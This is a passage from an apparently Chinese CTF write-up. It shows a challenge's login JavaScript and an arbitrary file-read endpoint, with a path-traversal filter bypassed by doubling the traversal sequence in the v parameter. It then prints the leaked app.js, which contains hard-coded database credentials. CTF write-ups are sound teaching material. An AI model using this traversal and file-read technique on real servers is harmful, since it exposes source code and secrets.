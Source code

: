 ```js
      const encryptedPassword = encrypt.encrypt(password);

      const formData = {
        username: username,
        password: encryptedPassword
      };

      const loginResponse = await fetch('/login', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json'
        },
        body: JSON.stringify(formData),
      });

      const result = await loginResponse.json();
      if (result.success) {
        alert('登录成功');
        window.location.href = "/hello"
      } else {
        alert('登录失败：' + result.message);
      }
    });
```

`/ExP0rtApi?v=./&f=app.js`接口可以读文件，v参数双写绕过目录穿越，分别读到app.js：

```JavaScript
const express = require('express');
const fs = require('fs');
var nodeRsa = require('node-rsa');
const bodyParser = require('body-parser');
const jwt = require('jsonwebtoken');
const crypto = require('crypto');
const SECRET_KEY = crypto.randomBytes(16).toString('hex');
const path = require('path');
const zlib = require('zlib');
const mysql = require('mysql')
const handle = require('./handle');
const cp = require('child_process');
const cookieParser = require('cookie-parser');

const con = mysql.createConnection({
  host: 'localhost',
  user: 'ctf',
  password: 'ctf123123',
  port: '3306',
  database: 'sctf'
})
con.connect((err) => {
  if (err) {
    console.error('Error connecting to MySQL:', err.message);
    setTimeout(con.connect(), 2000); // 2秒后重试连接
  } else {
    console.log('Connected to MySQL');
  }
});

const {response} = require("express");
const req = require("express/lib/request");

var key = new nodeRsa({ b: 1024 });
key.setOptions({ encryptionScheme: 'pkcs1' });

```